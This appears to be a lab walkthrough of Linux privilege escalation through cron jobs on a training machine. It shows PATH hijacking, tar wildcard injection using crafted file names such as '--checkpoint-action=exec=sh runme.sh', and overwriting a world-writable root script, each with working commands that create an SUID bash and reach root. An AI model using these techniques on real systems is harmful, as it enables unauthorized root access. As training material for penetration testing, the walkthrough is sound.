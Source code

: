 
When we have access to a machine one thing we can check is what `cron jobs` the machine is running. There are several places we can read this info from, and the most common place is `etc/crontab`

```bash
TCM@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

We see that there are two processes that are run every minute as `root`, which can be exploited to gain root access.

## Paths

We can see there is a binary named `overwrite.sh` is being run using a relative path. If we look at the `$PATH` variables we can see the first location is `/home/user`. We can first check wether there is such a file in that directory.

```bash
TCM@debian:~$ ls -la /home/user/
total 48
drwxr-xr-x  5 TCM  user 4096 Jun 18  2020 .
drwxr-xr-x  3 root root 4096 May 15  2017 ..
-rw-------  1 TCM  user  801 Jun 18  2020 .bash_history
-rw-r--r--  1 TCM  user  220 May 12  2017 .bash_logout
-rw-r--r--  1 TCM  user 3235 May 14  2017 .bashrc
drwx------  2 TCM  user 4096 Jun 18  2020 .gnupg
drwxr-xr-x  2 TCM  user 4096 May 13  2017 .irssi
-rw-------  1 TCM  user  137 May 15  2017 .lesshst
-rw-r--r--  1 TCM  user  212 May 15  2017 myvpn.ovpn
-rw-------  1 TCM  user   11 Jun 18  2020 .nano_history
-rw-r--r--  1 TCM  user  725 May 13  2017 .profile
drwxr-xr-x 10 TCM  user 4096 Jun 18  2020 tools
```

We can see that there is no such file. Since we have write access to this directory, we can create a file as follow and give it executable rights.

```bash
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash;' > /home/user/overwrite.sh
TCM@debian:~$ cat overwrite.sh 
cp /bin/bash /tmp/bash; chmod +s /tmp/bash;
TCM@debian:~$ chmod +x overwrite.sh
TCM@debian:~$ ls -l
total 12
-rw-r--r--  1 TCM user  212 May 15  2017 myvpn.ovpn
-rwxr-xr-x  1 TCM user   44 Jun 11 07:56 overwrite.sh
drwxr-xr-x 10 TCM user 4096 Jun 18  2020 tools
```

Now we just got to wait for a while and check whether `bash` has been copied over to the `/tmp` directory. Once it has, we simply need to run it with the `-p` flag.

```bash
TCM@debian:~$ ls /tmp/ -la
total 196
drwxrwxrwt  2 root root   4096 Jun 11 07:58 .
drwxr-xr-x 22 root root   4096 Jun 17  2020 ..
-rw-r--r--  1 root root 181544 Jun 11 07:58 backup.tar.gz
-rw-r--r--  1 root root     29 Jun 11 07:58 useless

TCM@debian:~$ ls /tmp/ -la
total 1108
drwxrwxrwt  2 root root   4096 Jun 11 07:59 .
drwxr-xr-x 22 root root   4096 Jun 17  2020 ..
-rw-r--r--  1 root root 181544 Jun 11 07:59 backup.tar.gz
-rwsr-sr-x  1 root root 926536 Jun 11 07:59 bash
-rw-r--r--  1 root root     29 Jun 11 07:58 useless

TCM@debian:~$ /tmp/bash -p
bash-4.1# whoami
root
```


## Wildcards

Now let's have a look at the other cron job that is running every minute.

```bash
TCM@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
TCM@debian:~$ ls -la /usr/local/bin/compress.sh 
-rwxr--r-- 1 root staff 53 May 13  2017 /usr/local/bin/compress.sh
```

Since we do not have write permission to the file, we cannot edit it. However, this uses a wildcard which we can use for injection. `tar` has the following two flags:

- `--checkpoint`: display progress messages every NUMBERth record (default 10)
- `--checkpoint-action=ACTION`: execute ACTION on each checkpoint

We can create two files with these flags as the name and running a custom binary as the action.

```bash
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash_new; chmod +s /tmp/bash_new' > runme.sh
TCM@debian:~$ chmod +x runme.sh
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\ runme.sh
TCM@debian:~$ ls -l
total 16
-rw-r--r--  1 TCM user    0 Jun 11 08:33 --checkpoint=1
-rw-r--r--  1 TCM user    0 Jun 11 08:34 --checkpoint-action=exec=sh runme.sh
-rw-r--r--  1 TCM user  212 May 15  2017 myvpn.ovpn
-rwxr-xr-x  1 TCM user   44 Jun 11 07:56 overwrite.sh
-rwxr-xr-x  1 TCM user   51 Jun 11 08:22 runme.sh
drwxr-xr-x 10 TCM user 4096 Jun 18  2020 tools
```

Now when the `tar` command is run via the cron job, the executed command looks something like this:

`tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh runme.sh`

Which would execute out binary in `/home/user` as root, giving us a copy of bash with the sticky bit set.

```bash
TCM@debian:~$ ls -l /tmp/
total 2012
-rw-r--r-- 1 root root 181546 Jun 11 08:41 backup.tar.gz
-rwsr-sr-x 1 root root 926536 Jun 11 08:41 bash
-rwsr-sr-x 1 root root 926536 Jun 11 08:41 bash_new
-rw-r--r-- 1 root root     29 Jun 11 07:58 useless

TCM@debian:~$ /tmp/bash_new -p
bash_new-4.1# whoami
root
```


## File Overwrites

Let's visit the `overwrite.sh` file again. If we check file permissions, we can see that anyone can write to the file.

```bash
TCM@debian:~$ locate overwrite.sh
/usr/local/bin/overwrite.sh
TCM@debian:~$ ls -l /usr/local/bin/overwrite.sh 
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

Since we can overwrite the file that is run by root, we can simply overwrite the file to create a reverse shell or in this case create a copy of `/bin/bash` with the SUID set.

```bash
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash_o; chmod +s /tmp/bash_o;' >> /usr/local/bin/overwrite.sh 
TCM@debian:~$ cat /usr/local/bin/overwrite.sh 
#!/bin/bash

echo `date` > /tmp/useless
cp /bin/bash /tmp/bash_o; chmod +s /tmp/bash_o;
```

Now we simply need to wait till the cron job is run and the files is copied.

```bash
TCM@debian:~$ ls -l /tmp/
total 1100
-rw-r--r-- 1 root root 181517 Jun 12 19:53 backup.tar.gz
-rwsr-sr-x 1 root root 926536 Jun 12 19:53 bash_o
-rw-r--r-- 1 root root     29 Jun 12 19:53 useless
TCM@debian:~$ /tmp/bash_o -p
bash_o-4.1# whoami
root
```
